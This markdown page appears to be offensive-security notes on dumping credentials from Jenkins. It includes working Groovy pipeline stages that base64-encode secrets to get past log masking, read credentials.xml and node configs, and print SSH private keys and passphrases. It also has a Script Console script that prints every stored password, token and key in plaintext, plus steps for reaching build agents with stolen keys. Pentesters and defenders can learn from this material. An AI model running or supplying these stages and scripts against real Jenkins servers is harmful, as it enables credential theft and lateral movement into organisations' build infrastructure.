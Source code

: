 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

## Credential ID Dumping

- Imagine we don't have access to  ```http://host:ip/credentials/``` to list the credentials id
- We can either look through the code repository hunting for these id or we need a piece of luck we can use Built-In executor
- When ```# of exectors``` in ```Configure System``` is set to non-zero, we can run builds on the controller, which means we have access to the controllers file system.
- Reference - https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
```

<img src="credential-id-dumping.png">

## Credentials & Configuration Dumping Build Agents Information

- This will be somewhat a borderline between credential dumping and lateral movement/backdooring.
- If the Jenkins Controller use SSH to the build agents we can try to dump those ssh keys and get access to the build agents.
- If some fields are not entered during configuration, then they might throw error while calling  withCredentials(sshUserPrivateKey) ( as I have not used paraphrase , trying to dump paraphrase would throw error )
- So we need luck here again as configuration files are stored in controller. 
   - Step 1 : Dump the ssh identifiers
   - Step 2 : Dump the ssh keys ( Reference : https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials )
   - Step 3 : Dump the nodes configuration ( note : the path to the Worker-Node is found through traversing the nodes under $JENKINS_HOME/nodes)
   - Step 4 : Use the user-name, and hostname and ssh-key to login to the build agent
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
        
    stage('Host Information Dumping') {
            steps {      
                  sh '''
                    cat /var/lib/jenkins/nodes/Worker-Node/config.xml
                  '''   
            }
    }
        
    stage('Dumping sshUserPrivateKey') {
        steps {
            script {
                withCredentials([sshUserPrivateKey(
                    credentialsId: 'dd0f4c9e-01dc-47c3-a0cd-3fff32e2a6cd',
                    keyFileVariable: 'keyFile',
                    passphraseVariable: 'passphrase',
                    usernameVariable: 'username')
                ]){
                    print 'keyFile=' + keyFile
                    print 'username=' + username
                    print 'keyFile.collect { it }=' + keyFile.collect { it }
            
                    print 'username.collect { it }=' + username.collect { it }
                    print 'keyFileContent=' + readFile(keyFile)
                }
            }
        }
    }
```

<img src="credential-host-configuration.png">
<img src="credential-ssh-configuration.png">


## Credentials Dumping from Script Console
``` Groovy
//copied from https://gist.github.com/timja/04afb12c8ad909e400317a2ad9c88445
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.common.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.*
import org.jenkinsci.plugins.plaincredentials.impl.*

  
// def item = Jenkins.instance.getItem("your-folder")

def creds = CredentialsProvider.lookupCredentials(
        com.cloudbees.plugins.credentials.Credentials.class,
        Jenkins.instance, // replace with item to get folder or item scoped credentials 
        null,
        null
);

for (credential in creds) {
  if (credential instanceof UsernamePasswordCredentialsImpl) {
    println credential.getId() + " " + credential.getUsername() + " " + credential.getPassword().getPlainText()
  } else if (credential instanceof StringCredentialsImpl) {
    println credential.getId() + " " + credential.getSecret().getPlainText() 
  } else if(credential instanceof BasicSSHUserPrivateKey) {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey() + "\n Passphrase: " + credential.getPassphrase()
  } else if (credential.getClass().toString() == "class com.microsoft.azure.util.AzureCredentials") {
    println "AzureCred:" + credential.getSubscriptionId() + " " + credential.getClientId() + " " + credential.getPlainClientSecret() + " " + credential.getTenant()
  } else if (credential.getClass().toString() == "class org.jenkinsci.plugins.github_branch_source.GitHubAppCredentials") {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey().getPlainText()
  } else if (credential.getClass().toString() == "class com.cloudbees.jenkins.plugins.awscredentials.AWSCredentialsImpl") {
    println credential.getId() + " " + credential.getAccessKey() + " " + credential.getSecretKey()
  } else if (credential.getClass().toString() == "class com.microsoft.jenkins.keyvault.SecretStringCredentials"
            || credential.getClass().toString() == "class org.jenkinsci.plugins.azurekeyvaultplugin.credentials.string.AzureSecretStringCredentials") {
  } else {
    println credential.getClass()
  } 
}
```
## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials 
- https://www.jenkins.io/blog/2019/02/21/credentials-masking/
